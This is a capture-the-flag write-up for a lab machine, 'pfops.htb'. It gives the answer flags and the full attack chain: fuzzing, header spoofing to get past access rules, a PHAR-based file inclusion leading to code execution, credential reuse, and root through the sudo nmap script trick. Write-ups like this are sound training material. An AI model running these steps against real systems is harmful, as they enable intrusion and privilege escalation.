









    	<font size="10">pfops.htb</font>

​		27<sup>th</sup> October 2024

---

### Description:

This machine takes advantage of misconfigurations in file uploads, LFI exploitation, and Linux privilege misconfigurations, simulating an environment where attackers discover credentials and escalate privileges on a simulated internal server and gain root execution sudo abuse

### Difficulty:

`easy`

### Flags:

User: `htbmeetupcmr{PH4R_LF1_2_Rc3_ch411}`

Root: `htbmeetupcmr{NM4p_2_r007_0wn4g3}`

---

# Enumeration

1. **Network Scanning**:
   - Scan the machine’s IP to identify open ports:
     ```bash
     rustscan -a 16.16.145.247 -- -sV -sC -oN scan_results 16.16.145.247.txt
     ```
   - Open Ports:
     - **Port 80 (HTTP)**: Web server with unknown host redirection
     - **Port 22 (SSH)**: Potential SSH access

2. **Host Discovery**:
   - Accessing the machine’s IP in a browser causes a redirection to **pfops.htb**.
   - Add `pfops.htb` to `/etc/hosts`:
     ```plaintext
      #htb-MEETUP
      16.16.145.247 pfops.htb
     ```

3. **Web Enumeration on pfops.htb**:
   - If you did not follow the rules and never made your requests with the correct user-agent format you get a 403 forbidden page

   - The main page on **http://pfops.htb** shows a basic landing page with no obvious functionality.

   

   - Fuzz directories using `ffuf` to reveal a hidden `/dev/` 
     ```bash
     ffuf -u http://pfops.htb/FUZZ -w `fzf-wordlists` -H "User-Agent: htbmeetupcmr  bl4ckarch" -x http://127.0.0.1:8080    
    
     ```
   - Further fuzzing in the directory reveals the **.git** folder 
   - Dump `.git` contents using `git-dumper` and inspect the files to find `.htaccess`, which lists access requirements set on the apache server.

   - Doing some subdomain enumeration reveal a dev subdomain but with a 403 forbbiden page
   - upon analysing the content of the .htaccess file
      ```plaintext
         <IfModule mod_rewrite.c>
            RewriteEngine On
            # Restrict access based on X-Forwarded-For to allow only 192.168.100.0/24
            RewriteCond %{HTTP:X-Forwarded-For} !^192\.168\.100\.[0-9]{1,3}$
            RewriteRule ^ - [F]
            # Further restrict based on custom header for dev access
            RewriteCond %{HTTP:Admins} !^Tom$
            RewriteRule ^ - [F]
         </IfModule>

      ```
      - Here the access to the dev subdomain is conditioned with a request comming from an internal host in the lan network **192.168.100.0/24** 
      - Furthermore it is restricted to a particular header **Admins: Tom** 
     ```plaintext
     X-Forwarded-For: 192.168.100.0/24
     Admins: Tom
     ```

4. **Accessing dev.pfops.htb**:
   - Add `dev.pfops.htb` to `/etc/hosts`:
     ```plaintext
     16.16.145.247 dev.pfops.htb
     ```
   - Set custom headers to gain access:
     ```plaintext
     X-Forwarded-For: 192.168.100.1
     Admins: Tom
     ```
     - You can do this with a firefow brower extension https://addons.mozilla.org/en-US/firefox/addon/modify-header-value/?utm_source=addons.mozilla.org&utm_medium=referral&utm_content=search 
     by simply adding all your custom headers request and all request wiil be done with these headers

   - The page reveals a file upload form to check the integrity of XML configuration files.

---

# Foothold

1. **LFI Exploitation**:
   - The `page` parameter in **dev.pfops.htb** has a hidden parameter, since the webpage is still under developement we assume it's a mistake from the Développers, to check for this hidden parameter we Fuzz and check for the actual param
     ```plaintext
     ffuf -u 'http://dev.pfops.htb/?FUZZ=index.php' -w `fzf-wordlists` -H "User-Agent: htbmeetupcmr  bl4ckarch" -x http://127.0.0.1:8080  -mc 500,200,403 -H 'X-Forwarded-For: 192.168.100.1' -H 'Admins: Tom' -fs 2469
      ```
     
     
     - Getting the 500 error code while trying to get the server's index page make and error since it's 500 this tell us the server tried to include himself and therefore making a infinite loop and hence the error 
     - From there we try to test for a Local file inclusion vulnerability at it workss
     
     
     
     - The actual vulnerable parameter is page which is therefore vulnerable to an LFI
      

2. **Bypassing Upload Restrictions**:

   - **dev.pfops.htb** permits `.txt` uploads, which allows bypassing restrictions using a **PHAR archive**.
   - Create a PHP info function to a file, `test.php`:
   - Create a zip named **test.zip** containing the `test.php`
   - Then rename the **test.zip** to **test.txt**
     ```bash
     echo "<?php phpinfo();?> >> test.php
     zip -r test.zip test.php
     mv test.zip test.txt
     ```
   - upload the file to the server 
   - Trigger the shell with the `phar://` php filter to trigger execution:
     ```plaintext
     GET /?page=phar://uploads/e3c421cb45d2fc24b3219293fa0a9386/test.txt/test.php
     ```
     
   - Hence Remote code execution 
   - We then put a revershell php and repeat the process to get a shell
     
     

---

# Lateral Movement

1. **Database Credentials**:
   - Running **ss -tulpn** shows us a list of port on which the server is listenning
   we actually see port 3306 and port 8000 we actually get a python web server.
   - navigating throught the /var/www directory reveals `internal_app` which contains a `.env` file containing database credentials:
     
   - The `.env` password grants SSH access as **tom** due to password reuse.

     

2. **SSH to tom**:
   - Log in to **tom** via SSH put ssh is restricted to public key only:
     ```bash
     ssh tom@pfops.htb
     ```
      
   - While on our rev shell we do a su tom and enter the password and we are logged as tom
   ```shell
         tom@ip-172-31-43-97:/var/www/internal_app$ id
         id
         uid=1001(tom) gid=1001(tom) groups=1001(tom)
         tom@ip-172-31-43-97:/var/www/internal_app
   ```
---

# Privilege Escalation

1. **Sudo Privilege on Nmap**:
   - The `tom` user has limited sudo access to **nmap**. 
      
      
      https://gtfobins.github.io/gtfobins/nmap/#sudo
     ```bash
      TF=$(mktemp)
      echo 'os.execute("/bin/sh")' > $TF
      sudo nmap --script=$TF
     ```
   - This command executes as root, granting full system access.

     

---
